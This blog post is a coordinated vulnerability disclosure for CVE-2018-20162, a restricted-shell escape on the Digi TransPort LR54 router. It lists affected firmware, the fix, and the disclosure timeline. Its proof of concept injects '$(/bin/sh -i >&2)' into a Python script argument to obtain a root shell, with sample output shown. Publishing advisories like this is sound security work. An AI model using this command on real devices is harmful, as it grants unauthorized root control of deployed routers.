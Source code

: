 ```yaml
---
layout: post
title: "CVE-2018-20162: Digi TransPort LR54 Restricted Shell Escape"
author: sgo
category: security
---
```


![lr54](/images/lr54.jpg)

The Digi TransPort LR54 is a high speed LTE router commonly used by industry,
infrastructure, retail and public transportation. 

It supports running python scripts in a restricted sandbox, and has a custom
shell accessible over SSH which is subjected to the same restrictions. The
underlying OS is therefore inaccessible to the administrator.

I've found a way to break out of the sandbox and obtaining a root shell by
exploiting the way the cli handles command line arguments when executing python
scripts:

When an interactive python process receives a SIGINT (trough CTRL-C), arguments
to the script are not properly escaped when passed to the interactive CLI's
error logging handler. This allows an attacker to execute arbitrary commands
as root.

To exploit this vulnerability, an attacker needs to have interactive CLI access
with 'super' privileges. A user with this access level is enabled by default on
the device.

# Vulnerable

Digi Transport LR54 (and maybe related products like WR64 and WR54)

- Firmware Version  : 4.4.0.26 10/29/2018 21:14:06
- Firmware Version  : 4.3.2.24 09/06/2018 00:58:34

And maybe earlier versions

# Migitation

Users should upgrade to firmware version 4.5.1.4 or newer. 

# Proof of Concept

1. Upload `sleep.py` to the LR54 using scp or sftp, containing: 
  ```
import time;time.sleep(10)
  ```
2. Execute the following command in the LR54 cli: 
  ```
python sleep.py --XXX $(/bin/sh -i >&2)
  ```
3. Immediately press `CTRL-C` after the program starts

4. You are then dropped to an interactive root shell 
  ```
/home/digi/user # uname -a
Linux (none) 3.10.14 #1 SMP Mon Oct 29 16:18:10 CDT 2018 mips GNU/Linux
/home/digi/user # id
uid=0(root) gid=2000(users_rw) groups=2000(users_rw),2002(users_super)
  ```

# Timeline

- 2018-12-13: Vulnerability discovered
- 2018-12-14: PoC created, Vendor notified
- 2018-12-14: Vendor confirmed, 60 day embargo. Applied for CVE.
- 2018-12-15: CVE-2018-20162 assigned
- 2018-12-31: Received pre-release firmware. Confirmed not vulnerable.
- 2019-01-02: Vendor releases fixed firmware 4.5.1.4
- 2019-01-25: Vendor updated release notes to reference CVE-2018-20162
- 2019-02-13: Vendor ok'ed disclosure, Embargo lifted

# References

- [https://www.digi.com/products/networking/cellular-routers/digi-transport-lr54](https://www.digi.com/products/networking/cellular-routers/digi-transport-lr54)
- [http://ftp1.digi.com/support/firmware/transport/LR54/v4.5.1.4/93001306_L.pdf](http://ftp1.digi.com/support/firmware/transport/LR54/v4.5.1.4/93001306_L.pdf)
- [https://www.digi.com/resources/security](https://www.digi.com/resources/security)
- [https://blog.hackeriet.no/cve-2018-20162-digi-lr54-restricted-shell-escape](https://blog.hackeriet.no/cve-2018-20162-digi-lr54-restricted-shell-escape)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20162](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20162)

# Credits

Vulnerability discovered by Stig Palmquist.

Thanks to @duniel_pls and @alexanderkjall for reviewing this report.
